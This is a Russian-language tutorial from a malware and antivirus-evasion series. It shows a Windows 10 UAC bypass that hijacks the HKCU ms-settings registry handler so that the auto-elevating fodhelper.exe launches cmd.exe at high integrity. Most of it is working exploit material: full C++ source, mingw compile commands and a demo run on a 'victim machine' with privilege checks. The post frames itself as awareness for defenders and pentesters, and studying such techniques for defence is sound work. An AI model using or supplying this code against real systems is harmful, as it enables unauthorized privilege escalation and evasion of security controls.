\newpage
\subsection{66. Обход антивирусов и виртуальных машин - часть 13 (часть 17 в блоге): обход UAC через fodhelper.exe. Простой пример на C++.}

﷽

{width="80%"}      

Этот пост появился как промежуточный результат одного из моих исследовательских проектов, в котором я собираюсь обойти антивирус, лишив его права на сканирование. Это результат моего собственного исследования первого этапа — одного из интересных трюков обхода UAC: через `fodhelper.exe` с модификацией реестра.      

### модификация реестра

Процесс изменения ключа реестра имеет своей конечной целью перенаправление потока выполнения привелегированного процесса на управляемую команду. Наиболее распространённые способы злоупотребления значениями ключей включают манипуляцию переменными среды `windir` и `systemroot`, а также командами открытия оболочки для определённых расширений файлов (в зависимости от целевого приложения):      

- `HKCU\\Software\\Classes\\<targeted_extension>\\shell\\open\\command (Default или DelegateExecute значения)`     
- `HKCU\\Environment\\windir`     
- `HKCU\\Environment\\systemroot`        

### fodhelper.exe

`fodhelper.exe` был представлен в Windows 10 для управления дополнительными функциями, такими как региональные настройки клавиатуры. Его расположение: `C:\Windows\System32\fodhelper.exe`, и он подписан Microsoft:      

{width="80%"}      

Когда запускается `fodhelper.exe`, монитор процессов начинает фиксировать процесс и раскрывает (среди прочего) все операции чтения/записи в реестре и файловой системе. Одной из самых интересных активностей является доступ к реестру, несмотря на то, что некоторые ключи или значения не обнаруживаются. Поскольку нам не требуются особые разрешения для изменения записей, ключи реестра `HKEY_CURRENT_USER` особенно полезны для тестирования того, как может измениться поведение программы после создания нового ключа реестра.       

`fodhelper.exe` ищет `HKCU:\Software\Classes\ms-settings\shell\open\command`. Этот ключ по умолчанию отсутствует в Windows 10:       

{width="80%"}      

Таким образом, когда вредоносное ПО запускает `fodhelper` (как мы знаем, Windows-бинарник, который позволяет повысить привилегии без запроса UAC) в процессе со средним уровнем целостности, Windows автоматически повышает `fodhelper` с уровня Medium до High integrity. Высокопривилегированный `fodhelper` затем пытается открыть файл `ms-settings` с использованием его обработчика по умолчанию. Поскольку вредоносное ПО с уровнем целостности Medium захватило этот обработчик, повышенный `fodhelper` выполнит атакующую команду в процессе с высоким уровнем привилегий.      

### практический пример

Давайте создадим PoC для этой логики. Сначала создадим ключ реестра и установим значения - наш этап модификации реестра:     

```cpp
HKEY hkey;
DWORD d;

const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; // default program
const char* del = "";

// attempt to open the key
LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 0, 
KEY_WRITE, NULL, &hkey, &d);
printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
"successfully create reg key\n");

// set the registry values
stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
"successfully set reg value\n");

stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)del, 
strlen(del));
printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" : 
"successfully set reg value: DelegateExecute\n");

// close the key handle
RegCloseKey(hkey);
```

Как вы можете видеть, просто создается новая структура реестра в: `HKCU:\Software\Classes\ms-settings\` для выполнения обхода UAC.

Затем запустим приложение с повышенными правами:

```cpp
 // start the fodhelper.exe program
SHELLEXECUTEINFO sei = { sizeof(sei) };
sei.lpVerb = "runas";
sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
sei.hwnd = NULL;
sei.nShow = SW_NORMAL;

if (!ShellExecuteEx(&sei)) {
  DWORD err = GetLastError();
  printf (err == ERROR_CANCELLED ? "the user refused to allow privileges elevation.\n" : "unexpected error! error code: %ld\n", err);
} else {
  printf("successfully create process =^..^=\n");
}

return 0;
```

Вот и все.

Полный исходный код выглядит как `hack.c`:

```cpp
/*
 * hack.c - bypass UAC via fodhelper.exe
 * (registry modifications). C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/19/malware-av-evasion-17.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  HKEY hkey;
  DWORD d;

  const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
  const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; 
  // default program
  const char* del = "";

  // attempt to open the key
  LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 
  0, KEY_WRITE, NULL, &hkey, &d);
  printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
  "successfully create reg key\n");

  // set the registry values
  stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
  "successfully set reg value\n");

  stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)
  del, strlen(del));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" 
  : "successfully set reg value: DelegateExecute\n");

  // close the key handle
  RegCloseKey(hkey);

  // start the fodhelper.exe program
  SHELLEXECUTEINFO sei = { sizeof(sei) };
  sei.lpVerb = "runas";
  sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
  sei.hwnd = NULL;
  sei.nShow = SW_NORMAL;

  if (!ShellExecuteEx(&sei)) {
    DWORD err = GetLastError();
    printf (err == ERROR_CANCELLED ? "the user refused to allow privileges 
    elevation.\n" : 
    "unexpected error! error code: %ld\n", err);
  } else {
    printf("successfully create process =^..^=\n");
  }

  return 0;
}
```

### демонстрация

Давайте посмотрим, как это работает. Сначала проверим реестр:    

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

{width="80%"}      

Также проверим текущие привилегии:     

```powershell
whoami /priv
```

{width="80%"}      

Компилируем `hack.c` на машине атакующего:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}      

Затем запускаем на машине жертвы (`Windows 10 x64 1903` в моем случае):     

```powershell
.\hack.exe
```

{width="80%"}      

Как видите, `cmd.exe` запущен. Проверяем структуру реестра снова:     

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

{width="80%"}      

Как видно, реестр был успешно изменён.    

Проверяем привилегии в запущенной сессии `cmd.exe`:    

```powershell
whoami /priv
```

{width="80%"}      

Запускаем `Process Hacker` с правами администратора:     

{width="80%"}      

И проверяем свойства нашего `cmd.exe`:     

{width="80%"}      

{width="80%"}      

Как видите, всё сработало идеально! =^..^=     

[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba) использует этот метод для повышения привилегий сначала с Medium до High integrity, а затем с High до System integrity через манипуляцию токенами.     

Надеюсь, этот пост повысит осведомлённость специалистов по защите информации о данной технике обхода и добавит новый инструмент в арсенал пентестеров.      

[MITRE ATT&CK: Modify registry](https://attack.mitre.org/techniques/T1112/)    
[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-06-19-malware-av-evasion-17)       
